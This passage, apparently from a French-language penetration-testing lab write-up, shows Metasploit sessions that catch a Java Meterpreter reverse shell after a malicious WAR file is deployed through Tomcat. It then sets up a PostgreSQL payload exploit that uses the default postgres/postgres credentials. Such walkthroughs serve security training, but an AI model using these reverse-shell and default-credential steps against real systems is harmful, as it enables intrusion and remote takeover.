 __Dans la console metasploit :__

```
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler

[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload java/meterpreter/reverse_tcp

[msf](Jobs:0 Agents:0) exploit(multi/handler) >> options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 192.168.56.120
LHOST => 192.168.56.120
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 6666
LPORT => 6666

[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run -j
```
Une fois `rshell.war` déployé avec l'interface tomcat. On devrait obtenir une nouvelle session dans notre metasploit.

```
[*] Meterpreter session 3 opened (192.168.56.120:6666 -> 192.168.56.123:47329 ) at 2022-06-30 09:04:16 +0200
```

## PostgreSQL

Postgresql utilise les identifiants par défauts "postgres/postgres".

```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/linux/postgres/postgres_payload
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/postgres/postgres_payload) > options 

Module options (exploit/linux/postgres/postgres_payload):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS    10.10.11.32      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:
                                        <path>'
   RPORT     5432             yes       The target port
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output
```
